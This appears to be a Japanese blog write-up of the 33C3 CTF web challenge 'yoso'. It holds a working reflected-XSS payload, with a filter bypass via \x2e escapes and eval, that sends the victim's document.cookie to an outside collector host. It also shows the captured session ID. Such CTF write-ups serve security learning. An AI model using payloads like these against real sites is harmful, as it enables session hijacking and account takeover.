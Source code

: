 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/12/30/33c3-ctf-yoso/
date: "2016-12-30T13:39:40+09:00"
tags: [ "ctf", "writeup", "web", "33c3-ctf", "javascript", "xss", "session-hijack", "csrf", "csrf-token" ]
---
```


# 33C3 CTF: yoso

深夜まで必死で粘ってなんとか倒した。達成感があった。

## problem

一括検索 + 検索履歴保存のサービス。そしてadminはflagについて検索するのが好きとのこと。

![](/blog/2016/12/30/33c3-ctf-yoso/1.png)
![](/blog/2016/12/30/33c3-ctf-yoso/2.png)

## solution

-   `/register.php`/`/login.php/`logout.php`: 何もなさそう
-   `/search.php`: 検索ができる
-   `/bookmark.php`: POSTすればzipが鯖上に生成される
-   `/download.php`: そのzipを削除しつつ取得
-   `/feedback.php`: linkを送ると鯖上で踏んでjsを実行してくれる

`/feedback.php`から`/bookmark.php`にPOSTして出きたzipを奪うのが思い付くが、`/bookmark.php`はCSRF tokenを持つのでだめ。
しかし`/download.php`にはXSSの脆弱性を持つので、これを踏ませてsession hijackにする。

最終的な攻撃linkはこれ: <http://78.46.224.80:1337/download.php?zip=%3Cscript%3Eeval%28%22location%5Cx2ehref%3D%5C%22http%3A%2F%2Frequestb%5Cx2ein%2F18o1k6g1%3F%5C%22%2Bdocument%5Cx2ecookie%3B%22%29%3C%2Fscript%3E>。

実行させたいjavascriptは以下。

``` javascript
location.href = "http://requestb.in/18o1k6g1?" + document.cookie;
```

しかし`/download.zip`では`..`を防ぐのと兼ねて`.`が消去される。なので文字列に持ちあげて`eval`する。
XSSは<http://78.46.224.80:1337/download.php?zip=%3Cmarquee%3EXSS%3C/marquee%3E>みたいに仕込める。

``` html
eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")
http://78.46.224.80:1337/download.php?zip=<script>eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")</script>
```


得られたのは`PHPSESSID=c5u3mgfndm4u241ji3ad9bajn1`。
結局CSRF tokenは破れず。

flag: `33C3_lol_wHo_needs_scr1pts_anyway`
